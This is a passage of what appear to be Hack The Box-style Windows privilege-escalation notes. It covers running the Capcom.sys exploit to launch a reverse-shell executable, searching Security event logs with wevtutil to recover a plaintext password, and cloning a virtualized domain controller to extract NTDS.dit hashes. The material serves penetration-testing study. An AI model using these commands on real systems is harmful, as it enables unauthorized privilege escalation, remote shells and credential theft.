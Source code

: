     . This should return `NTSTATUS: 00000000, WinError: 0`. If it doesn't try changing the location of `Capcom.sys` or where you are executing `LoadDriver.exe`
* `.\\ExploitCapcom.exe C:\\Windows\\Place\\to\\reverseshell\\rev.exe` to execute our malicious exe with privileged user.

## **Event Log Readers**

#### **Searching Security Logs Using wevtutil**

```powershell
PS C:\\htb> wevtutil qe Security /rd:true /f:text | Select-String "/user"

        Process Command Line:   net use T: \\\\fs01\\backups /user:tim MyStr0ngP@ssword
```

## **Hyper-V Administrators**

The [Hyper-V Administrators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#hyper-v-administrators) group has full access to all [Hyper-V features](https://docs.microsoft.com/en-us/windows-server/manage/windows-admin-center/use/manage-virtual-machines). If Domain Controllers have been virtualized, then the virtualization admins should be considered Domain Admins. They could easily create a clone of the live Domain Controller and mount the virtual disk offline to obtain the NTDS.dit file and extract NTLM password hashes for all users in the domain.
